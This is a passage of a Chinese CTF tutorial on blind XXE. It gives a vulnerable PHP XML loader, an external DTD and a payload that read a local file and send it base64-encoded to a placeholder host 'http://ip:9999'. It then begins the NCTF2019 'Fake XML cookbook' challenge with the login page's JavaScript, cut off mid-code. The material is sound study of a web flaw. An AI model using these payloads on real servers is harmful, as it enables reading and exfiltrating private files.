 ## 无回显读取本地敏感文件

payload:

**xml.php**

```
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

**test.dtd**

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY &#37 send SYSTEM 'http://ip:9999?p=%file;'>">
```

**payload：**

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```

双引号中的%需要编码为&#37

# CTF例题

## [NCTF2019]Fake XML cookbook

进去是一个登录框,F12查看源码

```javascript
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
```